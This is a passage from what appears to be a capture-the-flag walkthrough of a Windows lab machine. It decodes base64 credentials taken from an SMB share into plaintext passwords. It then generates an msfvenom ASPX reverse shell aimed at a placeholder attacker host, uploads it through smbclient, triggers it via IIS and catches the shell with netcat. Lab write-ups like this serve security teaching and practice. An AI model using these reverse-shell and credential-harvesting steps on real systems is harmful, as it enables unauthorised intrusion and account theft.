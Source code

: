```shell-session
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

Looks like the values are encoded, let's try to decode them:
```shell-session
$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d 
Bob - !P@$$W0rD!123

$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d 
Bill - Juw4nnaM4n420696969!$$$
```

Well, now that we have passwords for two users: `Bob` and `Bill`; we can now try to log into the machine using these credentials. 

## Gaining Access

First, we generate a reverse shell to use and upload to the machine using the `smbclinet` session:

```shell-session
$ sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3377 bytes
Saved as: rev.aspx

$ smbclient '\\TARGET_IP\nt4wrksv' 
Password for [WORKGROUP\novusedge]:
smb: \> put rev.aspx 
putting file rev.aspx as \rev.aspx (6.8 kb/s) (average 6.8 kb/s)
```

Now, we already know of the Microsoft IIS service running on the machine, we can try and load this `aspx` file from there, thus spawning the reverse shell:

![](revshell_load.png)

On our machine:
```shell-session
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 49875
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>

```
